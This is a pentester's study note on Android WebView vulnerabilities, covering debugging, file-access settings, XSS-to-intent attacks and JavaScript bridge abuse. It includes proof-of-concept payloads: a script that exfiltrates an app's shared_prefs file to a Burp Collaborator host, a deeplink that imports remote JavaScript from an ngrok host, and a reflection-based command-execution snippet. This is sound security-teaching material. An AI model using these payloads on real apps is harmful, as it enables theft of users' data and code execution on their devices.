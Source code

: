 The [WebView](https://developer.android.com/reference/android/webkit/WebView) class is a widely used to offer an in-app browser experience. It allows a developer to render any .html file or display a website in the app. It also comes with powerful Java to JavaScript bindings which are a common place for vulnerabilities.

## WebView attacks [^web-view-attacks]

[^web-view-attacks]: [The 2024 Guide to Android WebView Vulnerabilities](../../Readwise/Articles/SecureLayer7%20Lab%20-%20The%202024%20Guide%20to%20Android%20WebView%20Vulnerabilities.md), securelayer7.net

**Remote WebView** **debugging** allow to access the device webview with your laptop **Chrome Developer Tools.** The **device** needs to be **accessible** by the PC (via USB, local emulator, local network...) and running the debuggable WebView, then access `chrome://inspect/#devices`:

![|700](../../zzz_res/attachments/webview-debug.png)

In order to enable WebView Remote Debugging you can do something like:
```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
    WebView.setWebContentsDebuggingEnabled(true);
}
// Enable the WebView Debug depending on the debuggable flag inside the manifest
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
    if (0 != (getApplicationInfo().flags & ApplicationInfo.FLAG_DEBUGGABLE))
    { WebView.setWebContentsDebuggingEnabled(true); }
}
```

### File access 
Android provides different ways to enable/disable file read/access from a WebView. If managed incorrectly, those settings may allow you to read arbitrary data on the device, eventually also from the external SD.

Check for: 
- `getAllowFileAccess()` / `setAllowFileAccess(boolean)`[^setAllowFileAccess] 
- `getAllowUniversalAccessFromFileURLs` / `setAllowUniversalAccessFromFileURLs(boolean)` [^setAllowUniversalAccessFromFileURLs]
- `getAllowFileAccessFromFileURLs()` / `setAllowFileAccessFromFileURLs(boolen)` [^setAllowFileAccessFromFileURLs]
- `WebViewAssetLoader`

[^setAllowFileAccess]: https://developer.android.com/reference/android/webkit/WebSettings.html#setAllowFileAccess(boolean)
[^setAllowUniversalAccessFromFileURLs]: https://developer.android.com/reference/android/webkit/WebSettings#setAllowUniversalAccessFromFileURLs(boolean)
[^setAllowFileAccessFromFileURLs]: https://developer.android.com/reference/android/webkit/WebSettings#setAllowFileAccessFromFileURLs(boolean)

PoC to exfiltrate files:
```html
<script>
var url = 'file:///data/data/com.tmh.vulnwebview/shared_prefs/MainActivity.xml'; //local file
function load(url) {
	var xhr = new XMLHttpRequest();
	xhr.onreadystatechange = function() {
	if (xhr.readyState === 4) {
		fetch('https://8ktm71h4wjnqo72wgqbzvnr7jypodd.burpcollaborator.net/?exfiltrated=' + btoa(xhr.responseText)); //send b64 encoded file to attacker
		}
	}
	xhr.open('GET', url, true);
		xhr.send('');
}
load(url)
</script>
```

### JavaScript Enabled

WebViews have Javascript **disabled by default**. The method `setJavaScriptEnabled()` [^setJavaScriptEnabled] can explicitly enabling or disabling it.

[^setJavaScriptEnabled]: https://developer.android.com/reference/android/webkit/WebSettings.html#setJavaScriptEnabled(boolean)

Android application often supports [Deeplinks](Android%20101.md#Deeplinks) and [Intent](Intent.md). If JavaScript is enabled inside a WebView vulnerable to [Cross-Site Scripting (XSS)](../Web%20&%20Network%20Hacking/Cross-Site%20Scripting%20(XSS).md), it is possible to exploit it to send arbitrary intents [^intent-scheme], interact with any [Activity](Activity.md) and potentially obtain RCE.

Example from [TikTok for Android 1-Click RCE](https://dphoeniixx.medium.com/tiktok-for-android-1-click-rce-240266e78105):
```html
// send an intent from an XSS
<script>
location = "intent:#Intent;component=com.zhiliaoapp.musically/com.ss.android.ugc.aweme.favorites.ui.UserFavoritesActivity;package=com.zhiliaoapp.musically;action=android.intent.action.VIEW;end;"
</script>

// call a deep-link from an XSS (using WebView bridge implementation)
<script>
window.ToutiaoJSBridge.invokeMethod(JSON.stringify({  
"__callback_id": "0",  
"func": "openSchema",  
"__msg_type": "callback",  
"params": {  
"schema": "aweme://wiki?url=javascript://m.tiktok.com/%250adocument.write(%22%3Ch1%3EPoC%3C%2Fh1%3E%22)&disable_app_link=false"  
},  
"JSSDK": "1",  
"namespace": "host",  
"__iframe_url": "http://iframe.attacker.com/"  
}));
</script>
```

[^intent-scheme]: https://www.mbsd.jp/Whitepaper/IntentScheme.pdf

Example from [XSS + unsecure deeplink causing arbitrary application installation](https://ssd-disclosure.com/ssd-advisory-galaxy-store-applications-installation-launching-without-user-interaction/):
```html
<html>
  <head>
    <meta http-equiv="Content-Type" content="text/html; charset=windows-1252">
  </head>
  <body>
    <a href="samsungapps://MCSLaunch?action=each_event&url=https://us.mcsvc.samsung.com/mcp25/devops/redirect.html?mcs_ru=a%26testMode=1%26%22id=%22%3Ca%2520id%253d%22%3e%3Csvg/onload%253dimport(%27https://xxxxxx.ngrok.io/open.js%27)%3e%22%3e">1 click</a>
  </body>
</html>
```

### JavaScript Bridge

Android offers a way for JavaScript executed in a WebView to **call and use native functions of an Android app** (annotated with `@JavascriptInterface`) by using the `addJavascriptInterface` [^addJavascriptInterface] method. This is known as a *WebView JavaScript bridge* or *native bridge*.

[^addJavascriptInterface]: https://developer.android.com/reference/android/webkit/WebView.html#addJavascriptInterface%28java.lang.Object,%20java.lang.String%29

When you use `addJavascriptInterface`, you're **explicitly granting access** to the registered JavaScript Interface object **to all pages loaded within that WebView**.

*BrowserActivity*
```java
public class BrowserActivity extends ActivityC4970d implements View.OnClickListener, C5147d.InterfaceC5148a {
...
//Enabling Javascript Bridge exposing an object of the C5164c class
this.f5288V.addJavascriptInterface(new C5164c(this), "RoboTemplatesWebViewApp");
...
```

*C5164c.java*
```java
/* renamed from: e.d.a.a.a.a.h.o.c */
/* loaded from: classes.dex */
public class C5164c {
...
// Since Android 4.2 (JELLY_BEAN_MR1, API 17) methods not annotated with @JavascriptInterface are not visible from JavaScript
@JavascriptInterface
    public void showToast(String str) {
        Toast.makeText(this.f8808a, str, 1).show();
    }
...
```

PoC calls `showToast()` from an arbitrary HTML page with an arbitrary message:
```html
<html><body><script>RoboTemplatesWebViewApp.showToast("Meethack");</script></body></html>
```

![](../../zzz_res/attachments/javaScript-bridge-toast.png)

>[!warning]
>In the case of an **Open Redirect to an attackers web page that access the Native Android Object**, if the access to the redirection is done via a mobile **browser** and **not using** the same **WebView**, the **browser won't be able to access the native Android object**.

Older android version may allow to obtain RCE using [Reflection technique](https://labs.withsecure.com/publications/webview-addjavascriptinterface-remote-code-execution), but modern application are no longer vulnerable.
```html
<!-- javascriptBridge is the name of the Android exposed object -->
<script>
function execute(cmd){
  return javascriptBridge.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec(cmd);
}
execute(['/system/bin/sh','-c','echo \"mwr\" > /mnt/sdcard/mwr.txt']);
</script>
```

### In the wild WebView attacks

- [Bounty of an Insecure WebView (Part 1)](../../Readwise/Articles/Crisdeo%20Nuel%20Siahaan%20-%20Bounty%20of%20an%20Insecure%20WebView%20(Part%201)%20XSS,%20but%20With%20Steroids.md)
- [Exploiting Android WebView Vulnerabilities](https://medium.com/mobis3c/exploiting-android-webview-vulnerabilities-e2bcff780892)
- [WebView addJavascriptInterface Remote Code Execution](https://labs.withsecure.com/publications/webview-addjavascriptinterface-remote-code-execution)

